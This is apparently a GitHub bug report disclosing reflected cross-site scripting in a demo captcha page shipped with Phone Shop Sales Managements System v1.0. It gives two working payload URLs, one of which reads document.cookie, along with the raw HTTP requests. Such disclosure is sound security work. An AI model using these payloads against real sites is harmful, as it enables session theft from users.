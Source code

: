 # Phone Shop Sales Managements System v1.0 has Cross-site scripting (reflected)

BUG_Author: Blair

Source code website address：https://www.sourcecodester.com/php/10882/phone-shop-sales-managements-system.html

Vulnerability File: /osms/assets/plugins/jquery-validation-1.11.1/demo/captcha/index.php

Payload1:http://localhost/osms/assets/plugins/jquery-validation-1.11.1/demo/captcha/index.php/"><script>alert(1111)</script>?captcha=1&submit=Check

```
GET /osms/assets/plugins/jquery-validation-1.11.1/demo/captcha/index.php/%22%3E%3Cscript%3Ealert(1111)%3C/script%3E?captcha=1&submit=Check HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6fcav63hl60icb4n7tsvv0ns5k
Connection: close
```

![image](https://github.com/blairting/bug_report/blob/main/picture/1.png)

Payload2:http://localhost/osms/assets/plugins/jquery-validation-1.11.1/demo/captcha/index.php/"><script>alert(document.cookie)</script>?captcha=1&submit=Check

```
GET /osms/assets/plugins/jquery-validation-1.11.1/demo/captcha/index.php/%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E?captcha=1&submit=Check HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![image](https://github.com/blairting/bug_report/blob/main/picture/2.png)
